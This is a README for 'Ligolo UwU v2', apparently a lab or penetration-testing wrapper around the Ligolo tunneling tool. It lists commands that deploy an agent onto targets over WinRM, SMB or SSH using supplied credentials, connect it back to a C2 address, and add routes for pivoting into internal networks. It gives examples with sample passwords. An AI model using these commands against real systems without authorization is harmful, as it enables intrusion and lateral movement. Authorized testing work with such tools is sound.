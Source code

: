 # Ligolo UwU v2

All-in-One Ligolo Manager with direct upload method.

## Quick Start

```bash
# Install globally
./ligolo-uwu.sh install

# Download binaries
ligolo-uwu download

# Start proxy
ligolo-uwu proxy 443

# Add target and deploy (machines must be uppercase, I know I know)
ligolo-uwu add WIN01 <ip> <user> <pass> <c2_ip> 443 winrm

# Add route
ligolo-uwu route 172.16.70.0
```

## Syntax

### Installation
```bash
ligolo-uwu install                    # Install globally to /opt
ligolo-uwu clean                      # Clean up all lab files
ligolo-uwu clean --uninstall          # Clean up and uninstall
```

### Proxy Management
```bash
ligolo-uwu proxy <port> [interface]   # Start proxy server
ligolo-uwu download                   # Download latest binaries
```

### Route Management
```bash
ligolo-uwu route <network>            # Add route to ligolo interface
ligolo-uwu route-del <network>        # Remove route from ligolo interface
ligolo-uwu routes                     # List all ligolo routes
```

### Agent Deployment
```bash
ligolo-uwu agent <target_name>        # Deploy to saved target
ligolo-uwu <ip> <user> <pass> <c2_ip> <c2_port> <protocol> [--local-auth] [--debug]
```

### Target Management
```bash
ligolo-uwu add <name> <ip> <user> <pass> <c2_ip> <c2_port> <protocol> [--local-auth]
ligolo-uwu list                       # List saved targets
ligolo-uwu remove <target_name>       # Remove saved target
```

## Protocols
- `ssh` - Linux targets
- `winrm` - Windows targets (PowerShell)
- `smb` - Windows targets (cmd.exe)

## Flags
- `--local-auth` - Use local authentication (winrm/smb)
- `--debug` - Enable debug output

## Examples

```bash
# Windows targets
ligolo-uwu add WIN01 192.168.1.100 administrator 'Password1' 10.10.14.21 443 winrm
ligolo-uwu add WIN02 192.168.1.100 administrator 'Password1' 10.10.14.21 443 winrm --local-auth
ligolo-uwu add WIN03 192.168.1.100 user 'Pass123!' 10.10.14.21 443 smb

# Linux targets
ligolo-uwu add LINUX01 10.10.110.25 root 'toor' 10.10.14.21 443 ssh

# Quick deploy
ligolo-uwu 192.168.1.100 admin 'pass123' 10.10.14.21 443 winrm --debug

# Routes
ligolo-uwu route 172.16.70.0          # Add /24 route
ligolo-uwu route 10.10.10.0/16        # Custom CIDR
ligolo-uwu routes                     # List routes
ligolo-uwu route-del 172.16.70.0      # Remove route

# Deploy to saved target
ligolo-uwu agent WIN01

# Clean up lab
ligolo-uwu clean
```
